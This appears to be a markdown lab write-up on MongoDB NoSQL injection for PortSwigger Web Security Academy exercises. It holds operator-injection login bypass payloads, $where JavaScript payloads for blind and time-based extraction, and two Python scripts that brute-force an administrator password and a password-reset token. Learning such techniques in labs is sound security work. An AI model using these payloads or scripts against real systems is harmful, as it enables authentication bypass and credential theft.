 ----------------

### NOSQL Injection

-----------------

- This form of injection is typical to non sql databases e.g mongodb, cypher and others.This will focus more on mongodb.

----------------

- Types-:
  - Syntax injection-: This occurs when you can break the NoSQL query syntax, enabling you to inject your own payload. The methodology is similar to that used in SQL injection. However the nature of the attack varies significantly, as NoSQL databases use a range of query languages, types of query syntax, and different data structures.
  - Operators injection-:  This occurs when you can use NoSQL query operators to manipulate queries.


----------------  

- Operator injection-: NoSQL databases often use query operators, which provide ways to specify conditions that data must meet to be included in the query result.
- Examples-:

| **Operator** |      **Description**        |
|--------------|---------------------|
|$where | Matches documents that satisfy a JavaScript expression.|
|$ne | Matches all values that are not equal to a specified value|
|$in |Matches all of the values specified in an array. |
|$regex | Selects documents where values match a specified regular expression.|
| $nin  | not in an array |

- [More examples](https://www.w3schools.com/mongodb/mongodb_query_operators.php)
- SOlving the lab with `$nin`-:

```json
{"username":{"$nin":["carlos","wiener"]},"password":{"$ne":""}}
```

------------------

### Exploiting syntax injection to extract data

-----------------

- In many NoSQL databases, some query operators or functions can run limited JavaScript code, such as MongoDB's `$where` operator and `mapReduce()` function. This means that, if a vulnerable application uses these operators or functions, the database may evaluate the JavaScript as part of the query. You may therefore be able to use JavaScript functions to extract data from the database.
- Brief Example-:
- Vulnerable code-:
```js
{"$where":"this.username == 'admin'"}
```
- Injecting it to dump sensitive data-:

```
admin' && this.password[0] == 'a' || 'a'=='b
```

- Oops,it is blind,let's exfil other info with `match` js function that relies on regex, you'll also notice that the last quotes is removed to match the quote in the statement-:

```
admin' && this.password.match('^a') && '1'=='1
```
- Also, you can use `startswith()` in some instances, works in a nice manner than match because of special characters usage and you just need to comment `'` with `\\'`.

```
admin' && this.password.startswith('a') && '1'=='1
```

- Dumping the password with startswith() payload + python

```python3
#! /usr/bin/env python3
import requests
import asyncio
import string

#Replace host and cookie
#necessary variables
url: str = "https://0a0800e204bc44f580d6087f008e00af.web-security-academy.net"

async def main():
     headers = {"Cookie":"session=57tR4BdA7pjntM4pix5exS2nVIjtMSI3; Secure","User-Agent":"Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36Sec-Ch-Ua: \"Chromium\";v=\"140\", \"Not=A?Brand\";v=\"24\", \"Brave\";v=\"140\""}
     path = "/user/lookup"
     charset = string.ascii_letters + '1234567890' + string.punctuation 
     found_char = ""
     while True:
         for char in charset:
            special_chars = "\\'"
            if char in special_chars: char = '\\' + char
            payload = f"administrator'%26%26this.username=='administrator'%26%26this.password.startsWith('{found_char + char}')%26%26'1'=='1"
            result = requests.get(url + path + "?user="+ payload,headers=headers).text
            if len(result) ==  96:
               found_char += char
               print(f"[+] Found_char::{found_char}")
               break

if __name__ == "__main__":
    asyncio.run(main())
```

- 8 chars password-:

<img width="834" height="238" alt="image" src="https://github.com/user-attachments/assets/025a467d-7f10-40f3-bf24-1393ea568701" />

-----------------

### Extracting fields' names

----------------

- Payload-:

```js
"$where":"Object.keys(this)[0].match('^.{0}a.*')"
```

- Lab's script-:

```python3
#! /usr/bin/env python3
import requests
import asyncio
import string
import itertools

url = "https://0abd006a037036f7804a6255003200ed.web-security-academy.net/login"
valid_word = "Account locked: please reset your password"
charset = "_" + string.digits + string.ascii_letters 

#FIltering chars that are special in js

async def filter_char(character: str):
     if character not in string.ascii_letters + string.digits + '!"#%&,-:;<=>@_~`': 
        return "\\" + character 
     else: 
        return character
# Finding object keys length
async def find_keysLength(index: int):
     for counter in range(80):
        payload = f"Object.keys(this)[{index}].length == {counter}"
        data = {"username":"carlos","password":{"$ne":""},"$where":payload}
        text = requests.post(url,json=data).text
        if valid_word in text:
            print(f"[+]Objectindex{index}::length:->{counter}")
            break
     return counter

async def dump_keysStrings():
    keys = []
    for counter in range(4,5):
        length = await find_keysLength(counter)
        keys.append("")
        for char_counter in range(length):
            pick_counter = counter - (counter + 1)
            for char in charset:
                char = await filter_char(char)
                payload = f"Object.keys(this)[{counter}].match('^{keys[pick_counter] + char}')"
                #print(payload)
                data = {"username":"carlos","password":{"$ne":""},"$where":payload}
                text = requests.post(url,json=data).text
                if valid_word in text:
                   keys[pick_counter] += char
                   print(f"[+] Key:index{counter}::Found Char:{keys[pick_counter]}")
                   break
            if len(keys[pick_counter]) ==  length:
                print(f"[+] Keys:{counter}'s field found::{keys[pick_counter]}")
                break
    return keys[-1]
async def dump_key(field: str) -> string:
    found_chars = ""
    while True:
        for char in charset:
            char = await filter_char(char)
            payload = f"(this.{field}).toString().match('^{found_chars + char}')"
            data = {"username":"carlos","password":{"$ne":""},"$where":payload}
            text = requests.post(url,json=data).text
            if valid_word in text:
                found_chars += char
                print(f"[+] Found chars::{found_chars}")
                break
        if len(found_chars) == 16:
            print(f"[+]Found token:: {found_chars}")
async def main():
    field =  await dump_keysStrings()
    await dump_key("resetPwdToken")
  
if __name__ == "__main__":
    asyncio.run(main())
```
- Usage-:

- Time based injection exfiltration-:

```
admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'
```
- Payload 2-:

```
admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'
```

--------------------
